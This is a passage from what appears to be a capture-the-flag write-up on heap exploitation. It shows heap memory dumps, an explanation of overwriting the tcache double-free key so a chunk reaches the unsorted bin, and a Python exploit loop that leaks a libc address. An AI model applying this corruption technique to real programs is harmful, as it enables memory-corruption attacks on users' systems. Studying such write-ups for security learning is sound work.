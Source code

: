 

    -----------------------------------
    [0x000055555555c3b0] B       : x
    [0x000055555555c3e0] fake2   : 
    -----------------------------------
    0x55555555c3a0: 0x0000000000000000      0x0000000000000081  <-- B meta
    0x55555555c3b0: 0x0000000000000a78      0x0000000000000000
    0x55555555c3c0: 0x0000000000000000      0x0000000000000000
    0x55555555c3d0: 0x0000000000000000      0x00000000000000a1  <-- fake2 meta
    0x55555555c3e0: 0x0000000000000000      0x0000000000000000
    0x55555555c3f0: 0x0000000000000000      0x0000000000000000
    0x55555555c400: 0x0000000000000000      0x0000000000000000
    0x55555555c410: 0x0000000000000000      0x0000000000000000
    0x55555555c420: 0x0000000000000000      0x0000000000000031  <-- E meta
    -----------------------------------
    ...[snip]...
                      top: 0x55555555c490 (size : 0x20b70) 
           last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x0
    (0x20)   tcache_entry[0](1): 0x55555555c2e0
    (0x30)   tcache_entry[1](3): 0x55555555c430 --> 0x55555555c430 (overlap chunk with 0x55555555c420(freed) )
    (0x40)   tcache_entry[2](2): 0x55555555c460 --> 0x55555555c300
    (0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )



#### Get Unsorted Bin

What this allows me to do is free fake2, then use B to change the key,
and then free it again. I'll free it eight times in total, the first
seven going into tcache, and the last going into unsorted bins, which
leaves the double-linked list pointers on the heap. I'll also need to
make sure that 0xa0 bytes after A meta is a valid looking meta, and
that's why I when I created E, I sprayed lots of 0x21s in.



    # free fake to fill tcache, then overwrite key protecting from double free
    for i in range(7):
        edit('fake2', 0x0)    # free fake block, put 3e0 in 0xa0 tcache
        edit('B', 0x70, p64(0)*5 + p64(0xa1) + p64(0) + chr(i).encode()) # B

    rm('B') # B
    rm('fake2')



Now two files are open, and there's a libc address on the stack:



    -----------------------------------
    [0x0000000000000000]         : (null)
    [0x0000000000000000]         : (null)
    -----------------------------------
    0x55555555c3a0: 0x0000000000000000      0x0000000000000081
    0x55555555c3b0: 0x0000000000000000      0x000055555555c010
    0x55555555c3c0: 0x0000000000000000      0x0000000000000000
    0x55555555c3d0: 0x0000000000000000      0x00000000000000a1
    0x55555555c3e0: 0x00007ffff7fc3ca0      0x00007ffff7fc3ca0  <-- libc meta
    0x55555555c3f0: 0x0000000000000000      0x0000000000000000
    0x55555555c400: 0x0000000000000000      0x0000000000000000
    0x55555555c410: 0x0000000000000000      0x0000000000000000
    0x55555555c420: 0x0000000000000000      0x0000000000000031